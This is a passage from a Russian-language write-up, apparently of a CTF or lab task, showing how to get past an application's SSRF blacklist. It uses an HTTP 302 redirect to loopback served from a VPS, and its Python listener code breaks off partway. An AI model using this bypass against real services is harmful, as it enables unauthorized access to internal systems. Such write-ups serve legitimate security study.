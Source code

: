 В результате получаем ошибку ```"Обнаружена попытка SSRF-атаки"```, приклад скорее всего фильтрует пользовательский ввод по блеклисту (так как на webhook.site перенаправление работало успешно).

#### SSRF Bypass Filtering

Будем пробовать байпасить фильтрацию со стороны приклада. Один из вариантов, попробовать перенаправить веб сервис через ```HTTP 302 Redirect``` и в поле ```Location=``` указать ```loopback``` интерфейс.

1) Для этого используем ``terraform`` и поднием ```VPS``` в облаке.

![](img/img10.png)

![](img/img11.png)

Ставим ```python``` и пишем простой ```http replay``` сервер:

```python
#!/bin/env python3

import socket

HOST = '0.0.0.0'
PORT = 5000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen()
    print(f'Server is listening on {HOST}:{PORT}')


    try:
        while True:
            conn, addr = s.accept()

            with conn:
                print(f'Connected by {addr}')
                data = conn.recv(1024)
                if not data:
```